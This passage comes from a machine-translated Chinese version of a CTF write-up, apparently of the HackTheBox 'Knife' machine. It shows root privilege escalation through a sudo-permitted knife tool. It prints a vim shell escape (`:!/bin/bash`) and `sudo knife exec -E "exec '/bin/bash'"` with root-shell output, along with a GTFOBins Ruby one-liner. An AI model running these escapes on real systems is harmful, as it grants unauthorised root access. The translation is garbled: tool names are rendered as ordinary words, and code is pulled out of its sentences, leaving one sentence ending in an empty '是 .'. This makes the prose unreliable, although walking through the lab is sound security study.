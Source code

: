 #### 维姆逃生

跑步将在以下位置打开一个新包：`knife data bag create 0xdf output -e vim``vim`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210522155041425.png) 

我将通过以下方式逃避vim：`:!/bin/bash`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210522155109446.png) 

#### 执行

更简单地说，有一个[命令](https://docs.chef.io/workstation/knife_exec/)将运行Ruby代码。这是现在在走开的技巧，但是当刀子发布时，它就不存在了。[Ruby上有一个走开页面](https://gtfobins.github.io/gtfobins/ruby/#sudo)，显示正在运行。那里的红宝石代码是 .在这里使用相同的 Ruby 代码是有效的：`knife``exec``sudo ruby -e 'exec "/bin/sh"'``exec "/bin/sh"`

    james@knife:~$ sudo knife exec -E "exec '/bin/bash'"         
    root@knife:/home/james#
    

这个实际上很酷，因为我可以通过PHP vuln运行它，并在一个命令中获取两个标志：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210523065600707.png) 

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2021/08/28/htb-knife.html)